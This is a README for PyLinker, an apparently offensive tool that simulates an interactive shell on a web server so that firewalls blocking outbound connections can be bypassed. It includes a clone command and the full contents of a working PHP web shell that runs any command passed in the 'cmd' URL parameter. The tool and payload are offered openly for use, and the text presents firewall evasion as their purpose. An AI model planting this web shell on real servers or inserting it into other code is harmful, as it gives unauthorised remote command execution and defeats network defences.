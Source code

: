 # PyLinker
This tool represents a simulation of an interactive command line interface, designed to meet the needs of Cybersecurity Professionals. Its usefulness becomes evident in scenarios in which you face restrictions to establish more direct connections with the server, such as the presence of a Firewall that blocks the exit of TCP/UDP connections.

The main purpose of this tool is to provide a practical solution when security limitations prevent direct communication with the server. By simulating an interactive shell, it offers cybersecurity professionals an alternative way to interact with the system, thus overcoming the barriers imposed by Firewalls that restrict conventional connections.

Using this tool, cybersecurity experts can bypass firewall restrictions and perform essential tasks, maintaining a level of interactivity that makes it easy to execute commands and obtain critical information. This translates into greater flexibility and effectiveness in addressing situations where conventional connectivity is limited by security measures.

# Usage
git clone https://github.com/arnaldonk/PyLinker.git

Content of the .php file:
´´´
<?php
        system($_GET['cmd']);
?>
´´´

